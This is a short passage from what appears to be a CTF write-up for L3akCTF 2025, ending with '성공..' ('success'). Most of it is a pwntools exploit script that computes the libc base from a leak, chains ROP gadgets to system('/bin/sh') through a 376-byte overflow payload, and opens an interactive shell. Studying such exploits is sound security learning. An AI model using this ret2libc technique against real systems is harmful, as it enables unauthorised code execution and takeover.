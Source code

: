 ```bash
libc_base = libc_leak - libc_offset

log.success(f"libc leak = {hex(libc_leak)}")
log.success(f"libc base = {hex(libc_base)}")

pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret'])[0] - libc.address
binsh_offset = next(libc.search(b'/bin/sh')) - libc.address
system_offset = libc.symbols['system'] - libc.address
ret_offset = rop.find_gadget(['ret'])[0] - libc.address

system_addr   = libc_base + system_offset
binsh_addr    = libc_base + binsh_offset
pop_rdi_ret   = libc_base + pop_rdi_ret_offset
ret           = libc_base + ret_offset

payload = b'A' * 376
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

pause()

p.send(payload)

p.interactive()
```

![image.png](/assets/img/l3akctf2025/image12.png)

성공..